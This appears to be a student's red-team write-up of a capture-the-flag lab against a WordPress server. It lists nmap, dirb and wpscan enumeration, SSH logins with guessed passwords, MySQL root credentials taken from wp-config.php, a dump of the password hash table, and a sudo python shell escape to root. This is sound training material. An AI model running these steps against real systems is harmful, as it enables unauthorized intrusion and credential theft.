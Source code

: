 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exposed-services)
- [Critical Vulnerabilities](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#critical-vulnerabilities)
- [Exploitation](https://github.com/GarinJTanner/Final-Project/blob/main/Red-Team.md#exploitation)

## Exposed Services
Nmap scan results for 192.168.1.110 reveal the below services and OS details:  
~~~
nmap -sV 192.168.1.110  
~~~

![red111](https://user-images.githubusercontent.com/32025331/155897831-3ed2d82f-ea06-4b2b-88a5-ca45a22de921.PNG)   

This scan identifies the services below as potential points of entry:  
  
- OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
- Apache httpd 2.4.10 ((Debian))  

## Critical Vulnerabilities

The following vulnerabilities were identified:

**CWE-521 - Weak server password**
- Server does not require strong user passwords, making it vulnerable to brute force attacks. 
- *Severity:* High

**CWE-916 - Unsalted hashed passwords**
- Hashed passwords that are unsalted can be easily cracked using free softare, like John the Ripper.
- *Severity:* Medium/High

**CWE-269 - Improper Privilege Management**
- The server does not properly assign privileges for users, allowing for a known Python vulnerability to be executed.
- *Severity:* Medium/High

 ## Exploitation
The Red Team was able to penetrate the webserver and retrieve the following confidential data:


### flag1{b9bbcb33e11b80be759c4e844862482d}
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  

![red10](https://user-images.githubusercontent.com/32025331/155897106-083e1297-c5d6-490f-af59-1ac251500554.PNG)


- From there we ran wpscan: 
~~~
wpscan -–url http://192.168.1.110/wordpress --wp-content-dir -at -eu
~~~
![red13](https://user-images.githubusercontent.com/32025331/155897592-cb46a654-efc7-48f6-a220-833e3841df88.PNG)  

We then found two login names: Steven and Michael  
![red14](https://user-images.githubusercontent.com/32025331/155897593-ce8c5a5b-778a-486d-9d9d-c38249113aa4.PNG)  

By sheer luck, we guessed the password without brute force:  
~~~
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/html
grep -RE flag1
~~~
![red222](https://user-images.githubusercontent.com/32025331/155898152-706f9b4c-607d-4a1a-83f1-742a2217463d.PNG)  
  
  
**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**  
Using the same credentials, we SSH into the webserver:
~~~ 
ssh michael@192.168.1.110
Password: michael
cd ../../var/www/
grep -RE flag2
~~~
![red15](https://user-images.githubusercontent.com/32025331/155897666-7187d4ef-e7dc-4231-985f-f4c87a644dfa.PNG)


**flag3{afc01ab56b50591e7dccf93122770cd2}**  
**flag4{715dea6c055b9fe3337544932f2941ce}**  
Tools used: SSH, MySQL  
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
nano wp-config.php  
~~~

![red444](https://user-images.githubusercontent.com/32025331/155898231-ca6b815e-0a07-46dd-a844-b6eaf18d26cb.PNG)  
Within wp-config.php we were able to find credentials to a MySQL database.
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select post_content from wp_posts;
~~~
![red443](https://user-images.githubusercontent.com/32025331/155898281-266c6765-2025-49e4-96d2-a7b4f359dbd8.PNG)  
  
**Flag 4 from Steven’s account**  
- Tools used: SSH, MySQL, johntheripper  
- Using the MySQL credentials from before:  
~~~
mysql -u root -pR@v3nSecurity
show databases;
use wordpress;
show tables;
select user_login, user_pass from wp_users;
~~~  
![red555](https://user-images.githubusercontent.com/32025331/155898316-716315ab-4684-4dbe-bbad-8c096ebbd92a.PNG)  
We found the hashed passwords within the wp_users table.  
Exit back out to Kali. From here we can use John the Ripper:  

SSH into the webserver using Steven’s credentials:  
~~~
ssh steven@192.168.1.110
Password: pink84
~~~
Now we run a python exploit:
~~~
sudo /usr/bin/python -c 'import os;os.system("/bin/sh")'
whoami
cd /root
cat flag4.txt
~~~
![Capture](https://user-images.githubusercontent.com/32025331/155902751-aee3738f-b49c-4601-8dfb-6d6a4ad1466b.PNG)
